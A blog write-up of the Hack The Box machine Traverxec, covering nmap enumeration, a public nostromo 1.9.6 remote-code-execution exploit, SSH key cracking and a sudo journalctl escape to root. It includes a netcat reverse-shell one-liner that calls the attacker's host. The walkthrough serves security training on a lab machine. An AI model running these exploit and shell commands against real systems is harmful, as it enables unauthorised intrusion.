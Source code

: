 ```yaml
---
layout: single
title: "Hack The Box Write-up #1 : Traverxec"
excerpt: "My walkthrough of Traverxec Machine from HackTheBox"
date: 2020-04-11
header:
  teaser: /assets/images/traverxec-walkthrough/traverxec.png
categories:
  - hackthebox
  - infosec
tags:
  - nostromo  
  - journalctl
  - gtfobins
---
```


![Card](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/traverxec.png)

## Enumeration

### nmap 
We start by doing a nmap scan which gives the following results :


```
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-21 04:12 EST
Nmap scan report for traverxec.htb (10.10.10.165)
Host is up (0.26s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.82 seconds
```

We have 2 ports opened from the initial scan : 22 (SSH) , 80 (HTTP) …                                                            
Before even trying to enumerate the webpage , We can notice “nostromo 1.9.6” running on port 80.                                  

I made a quick research of the mentioned service running on the webpage and ended up with the
following results :
```
root@kali:~# searchsploit "nostromo 1.9.6"
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
nostromo 1.9.6 - Remote Code Execution | exploits/multiple/remote/47837.py
--------------------------------------- ----------------------------------------
```

- Command Execution… 

That seems nasty.
First lets copy the the script to a more flexible directory and start to test it.

```
cp /usr/share/exploitdb/exploits/multiple/remote/47837.py  /root/machines/traverxec
```

```
python 47837.py
```

![rce](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t3.png)

We see there are 3 required parameters : 
- Target ip address (10.10.10.165) 
- Target Port (80) 
- Command to execute (ex. Whoami).

```
python 47837.py 10.10.10.165 80 whoami
```

![proof](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t4.png)

As we see … we could execute commands to the remote server using the script from exploitdb.
Lets try and see if we can get ourselves a reverse shell to have a better experience while running commands on the remote server.

We are going to use netcat to do this…

```
python 47837.py 10.10.10.165 80 “rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.140 9001 >/tmp/f”
```

![shell](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t5.png)

We have a reverse shell on the remote server as www-data.
From now we can try and enumerate the webserver in /var/nostromo :

![enum](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t6.png)

There seems to be the conf folder which may include possible information on how to escalate to user.

Reading nhttpd.conf file We see a lot of juicy information :

![conf](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t7.png)

We can see that david which is also an user in the current machine seems to have been configured as the server admin, and more than that we can see that the public_www folder is located in /home

While we tried to enumerate … there was no such public_www in /home :

![home](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t8.png)

But since we saw : david was the server admin , the public_www should probably be inside his folder too.
We cannot actually list the files inside david home folder but we can try to directly access the mentioned directory as www-data and see if we can find something else :

![data](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t9.png)

As expected , we could directly access : public_www and we see the index.html file alongside an interesting directory claiming to hold protected files .                                                                                                                                                          
There seems to be a backup of the ssh keys inside there so I grabbed the files to my machine to try and login as user david

![backup](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/tx.png)

## USER ESCALATION

id_rsa seems to be encrypted and we can probably use john to convert and try to crack it :
![hash](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t10.png)

We pass the generated ssh hash to john and run it against rockyou.txt wordlist to see if we could get anything interesting…

![key](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t11.png)

John managed to succesfully crack the file , and the key seems to be “hunter”.                                                  
Lets try and login with the file since we have its key now :

![ssh](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t12.png)

We could succesfully login using ssh and now we can also easily grab the user flag. :)


## ROOT ESCALATION

After logging in , this is what we have in the home folder except user.txt :

![content](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t13.png)

- bin seems interesting , so we will enumerate it a little more to see what could it bring to us…

We have 2 files inside bin folder :

- A script written in bash which happens to read the last 5 log lines of nostromo :

![script](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t14.png)

- A header for the above script :

![header](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t15.png)

By analyzing the first script , we see that it is running journalctl as sudo against nostromo service to show the last 5 lines, and also I noticed that the execution of /usr/bin/cat prevents journalctl from remaining executed .

It looks like we have permissions to run the above sudo command against nostromo without the need of the password .

The bin folder is writable from our user so we can try to make another similar script but without usr/bin/cat in it . This way journalctl can remain executed on the script and we can try to abuse it somehow to escalate to root.

![customs](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t16.png)

As we see now , after executing our edited script , journalctl remains executed and now we can attempt to abuse it to gain root access …

The following website can help us with the simplest methods to escalate to a root shell from journalctl:
[GTFOBins](https://gtfobins.github.io/gtfobins/journalctl/)

And as we see , we can simply type !/bin/sh in the running session of journalctl to get a system shell

![root](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t17.png)

This happened to work perfectly … and now we have a shell executed as root .

![root](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t18.png)

This way we can easily navigate to root folder and grab the root flag.
